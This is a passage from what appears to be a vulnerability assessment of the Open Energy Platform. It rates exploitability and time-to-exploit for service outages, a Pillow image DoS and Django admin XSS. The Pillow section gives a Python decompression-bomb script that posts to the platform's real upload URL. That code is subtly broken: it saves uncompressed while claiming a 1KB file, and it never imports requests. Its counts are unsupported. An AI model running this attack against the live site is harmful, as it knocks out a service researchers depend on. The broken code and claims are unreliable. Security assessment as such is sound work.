 **Impact:**
- Complete service outage
- Energy researchers unable to access data
- Disruption of ongoing research

**Estimated Time to Exploit:** 5 minutes
**Skill Level Required:** Beginner (just need curl)
**Public PoC Available:** Yes

---

### **3. Pillow Image Processing DoS (Multiple CVEs)**

**Severity:** HIGH
**Total Pillow CVEs:** 111
**Exploitability:** ★★★★☆ (4/5 - Easy)

**Why It's Easy:**
- Pillow 10.3.0 has known buffer overflow issues
- Image upload functionality = easy delivery
- Decompression bombs are well-documented

**Attack Scenario:**
```python
# Create malicious image (decompression bomb)
from PIL import Image
import io

# Create 1KB image that expands to 1GB in memory
img = Image.new('RGB', (100000, 100000), 'white')
buffer = io.BytesIO()
img.save(buffer, format='PNG', compress_level=0)

# Upload to oeplatform
files = {'image': buffer.getvalue()}
requests.post('https://openenergy-platform.org/upload', files=files)

# Result: Server memory exhaustion, crash
```

**Impact:**
- Server crash
- Memory exhaustion
- Potential for arbitrary code execution (in some Pillow CVEs)

**Estimated Time to Exploit:** 30 minutes
**Skill Level Required:** Intermediate

---

### **4. XSS via Django Admin (52 XSS CVEs)**

**Severity:** MEDIUM-HIGH
**Exploitability:** ★★★★☆ (4/5 - Easy with account)
